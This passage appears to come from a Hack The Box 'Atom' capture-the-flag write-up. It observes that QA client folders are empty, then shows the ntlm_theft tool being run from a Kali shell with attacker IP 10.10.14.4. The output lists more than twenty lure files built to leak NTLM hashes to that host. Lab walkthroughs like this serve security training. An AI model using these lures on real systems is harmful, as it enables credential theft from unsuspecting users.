 The three client folders are empty. The PDF file has a details about the QA Process.
![](Atom_Web0.png)
Looking at the Step 2 of the QA Process says that `...Just place the updates in one of the client folders and the appropriate QA Team will test it to ensure it finds updates and installs it correctly.`
### NTLM_Theft_(Trying_To_Steal_NTLM)
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/ntlm_theft]
└─# python ntlm_theft.py -vv -g all -s 10.10.14.4 -f atom_htb
Created: atom_htb/atom_htb.scf (BROWSE TO FOLDER)
Created: atom_htb/atom_htb-(url).url (BROWSE TO FOLDER)
Created: atom_htb/atom_htb-(icon).url (BROWSE TO FOLDER)
Created: atom_htb/atom_htb.lnk (BROWSE TO FOLDER)
Created: atom_htb/atom_htb.rtf (OPEN)
Created: atom_htb/atom_htb-(stylesheet).xml (OPEN)
Created: atom_htb/atom_htb-(fulldocx).xml (OPEN)
Created: atom_htb/atom_htb.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: atom_htb/atom_htb-(includepicture).docx (OPEN)
Created: atom_htb/atom_htb-(remotetemplate).docx (OPEN)
Created: atom_htb/atom_htb-(frameset).docx (OPEN)
Created: atom_htb/atom_htb-(externalcell).xlsx (OPEN)
Created: atom_htb/atom_htb.wax (OPEN)
Created: atom_htb/atom_htb.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: atom_htb/atom_htb.asx (OPEN)
Created: atom_htb/atom_htb.jnlp (OPEN)
Created: atom_htb/atom_htb.application (DOWNLOAD AND OPEN)
Created: atom_htb/atom_htb.pdf (OPEN AND ALLOW)
Created: atom_htb/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: atom_htb/Autorun.inf (BROWSE TO FOLDER)
Created: atom_htb/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

